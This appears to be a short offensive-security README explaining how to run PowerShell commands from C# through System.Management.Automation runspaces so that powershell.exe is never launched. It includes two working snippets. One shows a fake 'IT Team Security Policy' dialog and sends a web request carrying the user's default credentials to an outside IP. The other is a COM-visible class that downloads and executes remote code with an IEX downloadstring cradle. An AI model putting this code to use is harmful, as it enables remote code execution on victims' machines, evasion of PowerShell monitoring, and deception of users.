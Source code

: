 ### Powershell Attack Without Powershell.exe
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe.

![Image of Yaktocat](https://raw.githubusercontent.com/NyaMeeEain/Infrastructure-Assessment/master/Images/PS_WT.PNG)

```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Windows.Forms;

public class Program
{
    public static void Main()
    {
        MessageBox.Show("Loading Security Services...", "IT Team Security Policy", MessageBoxButtons.YesNo, MessageBoxIcon.Question);
    }
    public class Code
    {
        public static void Exec()
        {
            string command = "Invoke-WebRequest -URI http://192.168.200.128:80/a -UseDefaultCredentials > null";
            RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
            Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
            rspace.Open();
            Pipeline pipeline = rspace.CreatePipeline();
            pipeline.Commands.AddScript(command);
            pipeline.Invoke();
        }
    }
}
```

### Another Way
```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;


namespace executive {

	[ComVisible(true)]
	public class executive \\Class
	{
	    public executive() \\direct call Class
	    {
	       RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
			Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
			rspace.Open();
			Pipeline pipeline = rspace.CreatePipeline();
			pipeline.Commands.AddScript("IEX ((new-object net.webclient).downloadstring('http://192.168.200.128:80/a'))");
			pipeline.Invoke();
	    }
	}
}


```
